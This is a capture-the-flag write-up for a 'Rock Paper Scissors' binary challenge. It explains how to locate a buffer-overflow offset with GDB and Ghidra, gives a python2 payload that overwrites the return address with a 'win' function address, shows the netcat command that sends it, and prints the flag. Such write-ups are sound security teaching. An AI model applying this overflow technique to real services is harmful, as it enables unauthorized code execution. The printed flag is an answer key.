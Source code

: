 # Rock Paper Scissors (120 Points)

In this challenge, obtaining the flag is straightforward—defeat the bot in a game of rock-paper-scissors. A hint suggests the bot might not play fair...

## Tools

- Python 2
- Netcat (`nc`)
- `checksec`
- `file`
- Ghidra
- GDB

## Instructions

Connect to the server using:

```bash
nc challenges.0x0539.net 7072
```

<!-- and use the provided `rps` binary. -->

Upon connection, the bot prompts for a name length and a name. It initializes a rock-paper-scissors game where, as the player, no matter what valid option you choose, the bot will counter with an option that beats yours:

- You: Rock
- Bot: Paper
- You: Paper
- Bot: Scissors
 
... and so on.

If you attempt options not listed, the program terminates with an unknown command message.

Upon experimenting with the name and name length inputs, you may trigger a segmentation fault (segfault) without the typical "You lose! >:) It's impossible for you to beat me!" message.

Exploiting this segfault becomes the potential exploit path, but how?

Additional information about the program can be obtained from the `rps` binary:

```bash
file rps
checksec rps
```

This reveals that the binary is a 32-bit dynamically linked Linux executable with partial RELRO, a found Canary, NX enabled, and no PIE.

Using Ghidra to disassemble, locate the `win` function and note its address.

Run the program in GDB with the input causing the crash. GDB will display the crash address. If using all `RR`, the address might be `0x52525252`.

Now, determine which `R` is leaked. Craft a long string of `R`s, `S`s, and `P`s with a unique sequence, run the program in GDB with the string, note the address, convert it to ASCII, and align it with your string to find the sequence.

Example:

```bash
RRPPRRSPRRPP
    RRSP
```

After identifying the malicious parts of the string, substitute them for the `win` function address in reverse order (due to LSB):

```bash
RRRRPRRRSRRPPSR\x51\x86\x04\x08PRSS
```

Generate a payload file:

```bash
python2 -c 'print "2222222222222222222222222222222222222222_RRRRPRRRSRRPPSR" + "\x51\x86\x04\x08" + "PRSS"' > pwn
```

Use Netcat to trigger the `win` function:

```bash
nc challenges.0x0539.net 7072 < pwn
```

This should exploit the program and reveal the flag:

```
FLAG{w3ll_th4ts_4_wr4p_f0lks}
```